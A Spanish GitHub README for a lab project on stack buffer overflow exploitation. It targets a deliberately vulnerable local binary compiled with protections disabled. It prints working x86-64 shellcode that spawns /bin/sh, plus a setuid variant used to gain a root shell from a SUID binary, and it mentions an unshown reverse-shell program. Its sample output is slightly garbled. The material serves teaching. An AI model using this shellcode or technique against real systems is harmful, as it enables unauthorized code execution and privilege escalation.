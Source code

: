 # Buffer Overflow Exploitation

Este proyecto muestra cómo explotar una vulnerabilidad de tipo **stack buffer overflow** para ejecutar código arbitrario, obteniendo una shell local y escalando privilegios con el bit **SUID** activado.

---

## Contenido del proyecto

- `vulnerable.c`: binario vulnerable que copia la entrada del usuario a un buffer sin control de límites.
- `exploit.c`: código que construye un payload para ejecutar una shell local (`/bin/sh`).
- `exploit_suid.c`: versión del exploit adaptada para binarios con el bit SUID activado.
- `exploit.asm`: solo el shellcode necesario para lanzar `/bin/sh` sin escalada de privilegios.
- `exploit_suid.asm`: shellcode que primero ejecuta `setuid(geteuid())` y luego lanza la shell.
- `reverse_shell.c`: reverse shell con almacenamiento de IP persistente.

---

## Parte 1: Ejecución de shell local

### Análisis del binario

El binario vulnerable contiene el siguiente código:

```c
void function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // ¡Sin comprobación de límites!
}
```
Este código permite que un atacante sobrescriba la dirección de retorno (RIP) en la pila al introducir más de 64 bytes, redirigiendo el flujo de ejecución a una shellcode personalizada.

### Cálculo del offset

Usando GDB:

```bash
(gdb) run $(python3 -c 'print("A"*80)')
```
El valor de `rip` resulta ser `0x4141414141414141`, lo que confirma que el offset hasta la dirección de retorno es de 72 bytes.

### Shellcode utilizada

La shellcode realiza una llamada directa a `execve("/bin/sh", NULL, NULL)`:

```asm
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```
### Construcción del payload

- NOP sled: relleno con `0x90` (instrucción NOP) hasta alcanzar el offset.
- Shellcode: se coloca al inicio del buffer.
- Dirección de retorno: apunta al NOP sled o directamente al shellcode.

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
---

## Parte 2: Explotación de binario con bit SUID

En esta fase se explota un binario con el bit SUID activado (propiedad de root), lo que permite heredar sus privilegios al ejecutar la shellcode.

### Preparación del binario

```bash
sudo chown root:root vulnerable
sudo chmod u+s vulnerable
```
### Shellcode extendido

La shellcode utilizada añade una llamada a `setuid(geteuid())` justo antes de ejecutar `/bin/sh`. Esto garantiza que la shell heredada mantenga los privilegios elevados otorgados por el bit SUID.

```asm
// -- setuid(geteuid()) --
"\x48\x31\xff"                              // xor    rdi, rdi
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x69"                                  // mov    al, 0x69 (setuid)
"\x0f\x05"                                  // syscall
// -- execve("/bin/sh", NULL, NULL) --
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```
### Validación

Al ejecutar el exploit:

```bash
./exploit_suid
# whoami
root) gid=0(root) groups=0(root)
```
---

## Archivos adicionales

- **`exploit.asm`**: contiene exclusivamente el shellcode de ejecución de `/bin/sh` mediante `execve`, sin escalada de privilegios.
- **`exploit_suid.asm`**: contiene la variante del shellcode que incluye la syscall `setuid(geteuid())` seguida de `execve("/bin/sh", NULL, NULL)` para asegurar la herencia de privilegios cuando el binario explotado tiene el bit SUID activado.
- **`reverse_shell.c`**: reverse shell configurable que permite introducir la IP objetivo por teclado, y guarda la última IP usada en `/tmp/last_ip.txt`.

---

## Autor

**Julen Casajús**  
[GitHub Profile](https://github.com/JulenCasajus)
